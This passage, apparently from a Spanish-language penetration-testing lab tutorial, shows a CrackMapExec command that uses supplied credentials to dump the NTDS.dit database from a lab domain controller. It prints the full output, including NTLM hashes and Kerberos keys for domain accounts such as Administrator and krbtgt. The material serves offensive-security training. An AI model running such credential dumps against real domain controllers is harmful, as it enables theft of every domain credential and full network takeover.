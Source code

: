### A Faster Method: Using cme to Capture NTDS.dit

Alternativamente, podemos beneficiarnos de usar CrackMapExec para lograr los mismos pasos mostrados arriba, todo con un solo comando. Este comando nos permite utilizar VSS para capturar y volcar rápidamente el contenido del archivo NTDS.dit convenientemente dentro de nuestra sesión de terminal.

```r
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds

SMB         10.129.201.57    445     DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefrieght.local) (signing:True) (SMBv1:False)
SMB         10.129.201.57    445     DC01             [+] inlanefrieght.local\bwilliamson:P@55w0rd! (Pwn3d!)
SMB         10.129.201.57    445     DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.201.57    445     DC01           Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         10.129.201.57    445     DC01           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.201.57    445     DC01           DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e6be3fd362edbaa873f50e384a02ee68:::
SMB         10.129.201.57    445     DC01           krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:1104:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
SMB         10.129.201.57    445     DC01           WIN-IAUBULPG5MZ:1105:aad3b435b51404eeaad3b435b51404ee:4f3c625b54aa03e471691f124d5bf1cd:::
SMB         10.129.201.57    445     DC01           WIN-NKHHJGP3SMT:1106:aad3b435b51404eeaad3b435b51404ee:a74cc84578c16a6f81ec90765d5eb95f:::
SMB         10.129.201.57    445     DC01           WIN-K5E9CWYEG7Z:1107:aad3b435b51404eeaad3b435b51404ee:ec209bfad5c41f919994a45ed10e0f5c:::
SMB         10.129.201.57    445     DC01           WIN-5MG4NRVHF2W:1108:aad3b435b51404eeaad3b435b51404ee:7ede00664356820f2fc9bf10f4d62400:::
SMB         10.129.201.57    445     DC01           WIN-UISCTR0XLKW:1109:aad3b435b51404eeaad3b435b51404ee:cad1b8b25578ee07a7afaf5647e558ee:::
SMB         10.129.201.57    445     DC01           WIN-ETN7BWMPGXD:1110:aad3b435b51404eeaad3b435b51404ee:edec0ceb606cf2e35ce4f56039e9d8e7:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\bwilliamson:1125:aad3b435b51404eeaad3b435b51404ee:bc23a1506bd3c8d3a533680c516bab27:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\bburgerstien:1126:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jstevenson:1131:aad3b435b51404eeaad3b435b51404ee:bc007082d32777855e253fd4defe70ee:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jjohnson:1133:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jdoe:1134:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         10.129.201.57    445     DC01           Administrator:aes256-cts-hmac-sha1-96:cc01f5150bb4a7dda80f30fbe0ac00bed09a413243c05d6934bbddf1302bc552
SMB         10.129.201.57    445     DC01           Administrator:aes128-cts-hmac-sha1-96:bd99b6a46a85118cf2a0df1c4f5106fb
SMB         10.129.201.57    445     DC01           Administrator:des-cbc-md5:618c1c5ef780cde3
SMB         10.129.201.57    445     DC01           DC01$:aes256-cts-hmac-sha1-96:113ffdc64531d054a37df36a07ad7c533723247c4dbe84322341adbd71fe93a9
SMB         10.129.201.57    445     DC01           DC01$:aes128-cts-hmac-sha1-96:ea10ef59d9ec03a4162605d7306cc78d
SMB         10.129.201.57    445     DC01           DC01$:des-cbc-md5:a2852362e50eae92
SMB         10.129.201.57    445     DC01           krbtgt:aes256-cts-hmac-sha1-96:1eb8d5a94ae5ce2f2d179b9bfe6a78a321d4d0c6ecca8efcac4f4e8932cc78e9
SMB         10.129.201.57    445     DC01           krbtgt:aes128-cts-hmac-sha1-96:1fe3f211d383564574609eda482b1fa9
SMB         10.129.201.57    445     DC01           krbtgt:des-cbc-md5:9bd5017fdcea8fae
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:aes256-cts-hmac-sha1-96:4b0618f08b2ff49f07487cf9899f2f7519db9676353052a61c2e8b1dfde6b213
```